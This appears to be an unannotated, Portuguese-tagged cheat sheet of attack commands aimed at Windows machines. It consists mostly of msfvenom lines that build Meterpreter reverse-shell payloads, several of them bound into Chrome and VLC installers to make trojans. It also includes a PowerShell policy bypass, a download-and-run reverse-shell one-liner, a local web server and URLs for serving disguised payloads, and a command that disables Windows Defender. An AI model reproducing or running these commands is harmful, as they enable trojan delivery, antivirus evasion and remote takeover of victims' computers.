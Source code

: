 msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -e x86/shikata_ga_nai -i 10 -f exe -o payload_encoded.exe

msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.137 LPORT=443 -f exe -x ChromeSetup.exe -o chrome_infectado.exe

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.137 LPORT=4444 -f exe > atibaia_payload.exe

msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<seu_ip> LPORT=443 -f exe -x vlc_setup.exe -o vlc_infectado.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f psh-cmd -o payload.ps1

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.137 LPORT=4444 -f psh > payload.ps1

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.100 LPORT=4444 -f exe > trojan.exe

Get-ExecutionPolicy

Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope Process -Force

IEX (New-Object Net.WebClient).DownloadString('https://https:/github.com/Ray-King11/TESTE/tree/main/Invoke-ReverseShell.ps1')


python3 -m http.server 8080

http://192.168.1.137:8080/vlc_infectado.exe

http://192.168.1.137:8080/documento_infectado.rtf

http://192.168.1.137:8080/microsoft_update.page.zip

http://192.168.1.137/payload.ps1

Test-NetConnection 192.168.1.137 -Port 443

Set-MpPreference -DisableRealtimeMonitoring $true

https://software.download.prss.microsoft.com/dbazure/Win10_22H2_BrazilianPortuguese_x64v1.iso?t=e5e99b27-438b-431d-9d64-86489e182f98&P1=1744405381&P2=601&P3=2&P4=f40ON0oovKGJWGrY%2bug6FI0LMLMWQtsvrWn70G6yYXtMIjlTOdYcUPmEFJ4fO4BwBAuqxNwVixbL6CKd5zlyIAo%2bKvg57n3vO%2bWSZCpo2zky%2blfaamqH%2bKPP33l4jKvGj%2b8HzqiUtM1Q7uGHgoyS3GDDE%2fW4gWCl0O7%2fy%2bB8qLzHK350i3CmZUBY4voa0qJbNO3GD0lb5FePTgvJbWJ4WolWV54uOsGOCtttwlJ5Y3KoIVmVLr9q9Q%2fNc2bf%2bayvgolgzwfqIPY9LN6rG5xyHEE2Evmp6nVsA%2f20SE7yb5v0603UZJmgpTIvrcCDOlq4Us75%2f4ONVSLaXKm3Qx6cyg%3d%3d




 

